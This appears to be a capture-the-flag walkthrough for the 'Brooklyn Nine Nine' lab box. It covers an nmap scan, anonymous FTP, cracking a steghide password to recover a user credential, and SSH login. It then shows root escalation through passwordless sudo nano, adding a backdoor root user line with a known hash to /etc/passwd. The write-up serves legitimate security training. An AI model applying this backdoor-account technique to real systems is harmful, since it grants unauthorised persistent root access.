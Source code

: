 # Brooklyn Nine Nine

<i>Target IP: 10.10.213.175</i>
<i>nmap scan</i><br>
<code>PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.38.40
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 167f2ffe0fba98777d6d3eb62572c6a3 (RSA)
|   256 2e3b61594bc429b5e858396f6fe99bee (ECDSA)
|_  256 ab162e79203c9b0a019c8c4426015804 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel</code>
<p>Generally we have FTP, SSH, Apache</p><br>
<p>Looks like we can connect to ftp with anonymous. and there is a file that we can read.</p>
<img src="https://i.ibb.co/LYfWk62/1.png" alt="1" border="0">
<p>From the note we know that jack's password is weak, but hydra and rockyou can't help us with it. <img src="https://i.ibb.co/wKMZ987/2.png" alt="2" border="0"></p>
<p>Don't forget about the apache server. So if we go there it looks like this: <img src="https://i.ibb.co/dp91ZpN/4.png" alt="4" border="0"> And we can see that there is a comment about stenography. We can download the image and look what we can do with it <img src="brooklyn99.jpg" alt=""></p>
<p>I tried to use steghide to extract the contents of the image, but it wants a password.</p>
<p>I used <b>stegcracker</b> to crack the password and it turned out that the password was admin. Let's look at the contents. <img src="https://i.ibb.co/PQqQSfT/5.png" alt="5" border="0"></p>
<p>We have something that looks like a password.</p>
<code>Holts Password:
fluffydog12@ninenine

Enjoy!!</code>
<p>Let's check where we can login with the password.</p>

<p>
	<b>Known users:</b>
	<ul>
		<li>amy</li>
		<li>jack</li>
	</ul>
	And we can suppose that trere is a user <b>holt</b>
</p>
<p>Here we go. We can make ssh connection to the use holt with the password that we have got before. And now we have got the first flag.</p>

# Privilege Escalation
<p>Besides the file <b>user.txt</b> we have the file named <b>nano.save</b></p>
<p>Using <code>sudo -l</code> We found that we can use nano as sudo without password.</p>
<p>Having the possibility to use nano with sudo privileges open a lot of ways for us to get the root privileges. I am going to change the <code>/etc/passwd</code> file. I will add a new root user there with my own password.</p>
<b>WVLY0mgH0RtUI = mrcake</b>
<p>I am going to use the hash there.</p>
<p>I added the following line to the <code>/etc/passwd</code> using <code>sudo nano</code>: <br><code>root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash</code><br>And now we can loging as <code>root2</code> with password <code>mrcake</code>using <code>su root2</code></p>
<p>Now we just have to go to the root directory and read the file root.txt</p>